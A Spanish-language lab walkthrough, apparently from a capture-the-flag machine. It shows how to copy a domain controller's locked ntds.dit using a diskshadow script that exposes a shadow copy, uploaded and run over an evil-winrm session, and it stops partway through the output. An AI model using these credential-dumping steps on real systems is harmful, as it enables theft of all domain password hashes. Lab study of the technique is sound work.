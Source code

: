 El problema aquí es que el **archivo ntds.dit** está en uso, lo que nos complica el poder copiarlo, pues dicho archivo permanece bloqueado por el SO para prevenir su acceso directo.

Para aplicar un bypass a esto, necesitamos usar la función **diskshadow** y un archivo **Distributed Shell (DSH)**:

| **diskshadow.exe** |
|:-----------:|
| *diskshadow.exe es una herramienta de línea de comandos que permite a los administradores (o atacantes con privilegios) crear y gestionar instantáneas de volumen (shadow copies). Estas instantáneas son copias "congeladas" del estado de un disco en un momento determinado, y se utilizan comúnmente para backups del sistema, recuperación de datos sin detener procesos en ejecución y Acceso a archivos que están normalmente bloqueados o protegidos, como NTDS.dit, SAM, o SYSTEM* |

<br>

| **Archivo Distributed Shell (DSH)** |
|:-----------:|
| *diskshadow usa archivos de texto plano (.txt) llamados comúnmente scripts de diskshadow, que contienen comandos que automatizan la creación y exposición de instantáneas (shadow copies).* |

<br>

Vamos a crear el **archivo DSH**:
```bash
nano berserk.dsh
---------
set context persistent nowriters
add volume c: alias berserk
create
expose %berserk% z:
```
Puedes modificar los nombres berserk para que esté tu alias.

Ahora, tenemos que usar la herramienta **unix2dos** sobre nuestro **archivo DSH**, pues convierte la codificación y el espaciado del **archivo DSH** a un formato compatible con la **máquina Windows**, lo que garantiza una ejecución sin problemas.
```bash
unix2dos berserk.dsh
unix2dos: convirtiendo archivo berserk.dsh a formato DOS..
```
Listo.

Apliquemos ambos métodos.

<br>

<h3 id="Hashes1">Metodo 1: Copiando Archivo ntds.dit con diskshadow y SYSTEM con reg save</h3>

Crea un directorio temporal y carga el **archivo DSH** a la sesión de **evil-winrm**:
```batch
*Evil-WinRM* PS C:\Users\thomas.brown\Documents> cd C:\
*Evil-WinRM* PS C:\> mkdir Temp
*Evil-WinRM* PS C:\Temp> upload berserk.dsh
Info: Uploading /../TheHackersLabs/BlackGold/content/berserk.dsh to C:\Temp\berserk.dsh
Data: 120 bytes of 120 bytes copied
Info: Upload successful!
```

Ejecuta el **archivo DSH** con **diskshadow**:
```batch
*Evil-WinRM* PS C:\Temp> diskshadow /s berserk.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  5/15/2025 5:21:46 AM

-> set context persistent nowriters
-> add volume c: alias berserk
-> create
Alias berserk for shadow ID {5c1763ce-df77-4fb5-87b4-751afe688ffa} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {24ff74c8-8965-450d-8d1f-5ffc00373b3b} set as environment variable.

Querying all shadow copies with the shadow copy set ID {24ff74c8-8965-450d-8d1f-5ffc00373b3b}
```
